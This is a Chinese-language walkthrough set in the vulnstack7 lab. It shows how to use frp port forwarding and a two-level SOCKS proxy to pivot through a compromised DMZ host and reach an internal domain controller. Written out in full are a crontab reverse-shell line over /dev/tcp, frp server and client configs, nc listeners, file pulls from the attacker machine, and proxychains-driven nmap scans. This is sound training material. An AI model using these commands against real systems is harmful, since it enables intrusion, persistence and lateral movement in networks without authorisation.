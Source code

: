 # frp 内网渗透案例：端口转发 + 二级代理（深入理解 frp 在内网渗透中的技巧）

本文使用 vulnstack7 靶场作为测试环境，解释 frp 内网渗透特殊使用姿势，通过此案例来提高内网渗透能力。

![image-20250326154849216](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8/%E9%9A%A7%E9%81%93%E6%90%AD%E5%BB%BA/images/image-20250326154849216.png)

- 接下来的演示环境只做了以下修改。
  - 攻击者 vps 的 ip 修改为：192.168.72.162。
  - DMZ 区域的 ubuntu 的 ip1 修改为：192.168.72.129。

先引入问题，当我们控制了 DMZ 的 ubuntu 并且拿到第二层网络的 ubuntu 的 rce 后，会出现以下两个问题。

- 如何搭建隧道让 ubuntu 反弹 shell 给攻击者 vps？
- 如何搭建隧道让攻击者 vps 将 ubuntu 作为内网代理访问域控？

这就是这篇文章要讨论的内容。

### 端口转发

为了方便讨论，我们将 DMZ 区域的 ubuntu 称为 ubuntu1，第二层网络的 ubuntu 称为 ubuntu2。 

我们先来解决其中一个问题，如何让第二层网络的 ubuntu2 反弹 shell 给攻击者 vps。我们先开启攻击者 vps 本地 4444 端口接收反弹 shell，假设我们现在使用 ubuntu2 的 root 权限在计划任务中写入反弹 shell，并标注反弹 shell 的 ip 为攻击者 vps 192.168.72.162，这肯定会失败，因为 ubuntu2 不出网，他找不到 ip 为 192.168.72.162 的主机。所以我们进行端口转发让 ubuntu2 能够定位到处于其他网段的 攻击者 vps。

##### 在 ubuntu1 上配置端口转发

我们的思路是，ubuntu1 上开启 4444 端口，然后经由此端口的流量都会转发到攻击者 vps 的 4444 端口上，此刻，攻击者 vps 使用 nc 监听本地 4444 端口，且让 ubuntu2 反弹 shell 到 ubuntu1 的 4444 端口，流量自动转发到 vps 的 4444 端口上。

攻击者 vps 端口 4444 <-------------> 端口4444 ubuntu1 端口4444<------------->ubuntu2

```
# 首先在 ubuntu2 上将反弹 shell 写入 /etc/crontab

echo "* * * * * root bash -c 'bash -i >& /dev/tcp/192.168.52.10/4444 0>&1'" >> /etc/crontab
```

![image-20250326160951908](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8/%E9%9A%A7%E9%81%93%E6%90%AD%E5%BB%BA/images/image-20250326160951908.png)

```
# 在 ubuntu1 上运行 frps。

frps.ini 配置文件如下：
[common]
bind_addr = 0.0.0.0
bind_port = 7100
dashboard_addr = 0.0.0.0
dashboard_port = 7101
dashboard_user = root
dashboard_pwd = 123456
token = 00253c8fcf9ae01

# 此程序将开启 ubuntu1 的 7100 端口作为 frp 服务端。
```

![image-20250326161313771](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8/%E9%9A%A7%E9%81%93%E6%90%AD%E5%BB%BA/images/image-20250326161313771.png)

```
# 在 ubuntu1 上运行 frps。

frpc.ini 配置文件如下：
[common]
server_addr = 192.168.72.129
server_port = 7100
token = 00253c8fcf9ae01
pool_count = 5
health_check_type = tcp
health_check_interval_s = 100
[test]
remote_port = 6100
plugin = socks5
use_encryption = true
use_compression = true
plugin_user = admin
plugin_passwd = 123456
[rever_shell]
type = tcp
local_ip = 127.0.0.1
local_port = 4444 
remote_port = 4444			# 本地端口 4444 转发到远程端口 4444
[HTTP]
type = tcp
local_ip = 127.0.0.1
local_port = 8000			# 本地端口 8000 转发到远程端口 8000
remote_port = 8000

此脚本运行后会向 frps 7100 端口进行连接，然后指定 frps 开启本地（192.168.52.10） 6100 端口进行正向代理，
开启本地（192.168.52.10） 4444 向攻击者 vps （192.168.72.162） 4444 的端口转发。
开启本地（192.168.52.10） 8000 向攻击者 vps （192.168.72.162） 8000 的端口转发。

# 配置好后，攻击者 vps 开机端口监听
nc -lvp 4444
```

等待一会，发现反弹 shell 成功（左上图），且 frpc（左下图） 和 frps（右下图） 都有端口转发的记录。注：左下图哪个红色的报错是因为，我当时没有开启攻击者的 4444 的监听，所以给拒绝了。

![image-20250326162032748](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8/%E9%9A%A7%E9%81%93%E6%90%AD%E5%BB%BA/images/image-20250326162032748.png)

##### 端口转发拉取文件

还有一个小技巧，我们同时搭建了 8000 的端口转发，那么我们在 vps 上开启一个 8000 端口 web 服务，然后 ubuntu2 上执行 wget 命令可以拉取 vps 上的文件。（左：192.168.72.162，右：192.168.52.20）

![image-20250325104414189](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8/%E9%9A%A7%E9%81%93%E6%90%AD%E5%BB%BA/images/image-20250325104414189.png)

### 二级代理

搭建好端口转发后，我们接下来就是搭建入网隧道访问域控了。通过以上端口转发拉取文件后，在 ubuntu2 搭建一个正向代理 frp。

```
# 注：之前搭建的端口转发出网隧道，一定不要关闭，我们需要使用类似于反弹 shell 的机制，让 frpc 通过端口转发回连 frps，详细内容如下：

攻击者 vps 占用端口 8000 的 frps <-------------> 端口8000 ubuntu1 端口8000<------------->ubuntu2 上的 frpc

# 在 vps （192.168.72.162）上新开一个 frps（注：不是 frpc），然后在 ubuntu2 上拉取 frpc，让 frpc 回连 frps 后即可搭建成功。
```

##### 入网二级代理搭建

```
# 在 vps 上运行 frps。

frps 配置文件如下：
[common]
bind_addr = 0.0.0.0
bind_port = 8000				# frps 监听 vps 的 8000 端口。
dashboard_addr = 0.0.0.0
dashboard_port = 7102
dashboard_user = root
dashboard_pwd = 123456
token = 00253c8fcf9ae01

# 在 ubuntu2 上运行 frpc。
[common]
server_addr = 192.168.52.10
server_port = 8000				# 让 frpc 回连 192.168.52.10 的 8000 端口，自动转发到 vps 的 8000 端口。
token = 00253c8fcf9ae01
pool_count = 5
health_check_type = tcp
health_check_interval_s = 100
[test]
remote_port = 6200				# 攻击者通过本地 6200 端口访问深网域控
plugin = socks5
use_encryption = true
use_compression = true
plugin_user = admin
plugin_passwd = 123456 

# 运行完 frpc 后，frpc 回连 frps，frps 上开启 6200 端口作为访问 frpc 代理的端口。
```

![image-20250326164509102](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8/%E9%9A%A7%E9%81%93%E6%90%AD%E5%BB%BA/images/image-20250326164509102.png)

由此我们通过端口转发 + 二级代理搭建了访问深网的隧道

### 访问域控

##### 配置 proxychains

```
# 指定 vps 本地 6200 端口为内网代理。 
vim /etc/proxychains4.conf

socks5  127.0.0.1       6200    admin   123456
```

##### nmap 扫描域控

```
proxychains nmap -sT -Pn -n --open -p445,135,80,5985,5986,8000 192.168.93.30
```

![image-20250326164855861](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/%E5%86%85%E7%BD%91%E5%AE%89%E5%85%A8/%E9%9A%A7%E9%81%93%E6%90%AD%E5%BB%BA/images/image-20250326164855861.png)

##### 流量过程

攻击者 vps 占用端口 6200 的 frps <-------------> 端口8000 ubuntu1 端口8000 <-------------> ubuntu2 上的 frpc <-------------> 域控。

### 其他使用

我们之前介绍了两种端口转发使用：

- 反弹 shell 到 vps。
- 拉取 vps 上的文件。

其实还有其他使用技巧：

- ntlm relay 回连至攻击者机器（使用 printer bug）。